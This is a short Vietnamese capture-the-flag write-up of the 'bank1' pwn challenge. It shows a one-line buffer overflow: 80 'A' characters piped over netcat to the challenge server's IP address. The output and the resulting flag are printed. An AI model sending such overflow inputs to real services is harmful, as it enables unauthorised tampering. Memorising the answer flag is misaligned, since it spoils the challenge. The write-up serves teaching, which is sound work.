 ## ⚡ [bank1](https://ctf.hcmus.edu.vn/challenges#bank1-7)

[![df](https://img.shields.io/badge/B3T4-shark-brightgreen.svg)](https://img.shields.io/badge/B3T4-shark-brightgreen.svg)
[![df](https://img.shields.io/badge/member-viplazy-brightgreen.svg)](https://img.shields.io/badge/member-viplazy-brightgreen.svg)
[![df](https://img.shields.io/badge/25-pts-brightgreen.svg)](https://img.shields.io/badge/25-pts-brightgreen.svg)

Tác giả: `xikhud`

Tags: `pwn` `bof`

### Summary

Chạy thử chương trình thì thấy nó cho nhập một chuỗi kí tự, rồi sau đó kết thúc.

### Exploit

Vì không có binary, ta chỉ thử buffer overflow nó xem sao:

```bash
$ python2 -c 'print "A"*80' | nc 61.28.237.24 30202
[+] Please enter your name: [+] Thanks for the registration, your balance is 1094795585.
HCMUS-CTF{that_was_easy_xd}
```

Vậy là ta lấy được flag luôn @@.

📫 Flag: **`HCMUS-CTF{that_was_easy_xd}`**

---
*[Back to table of contents](../README.md)*
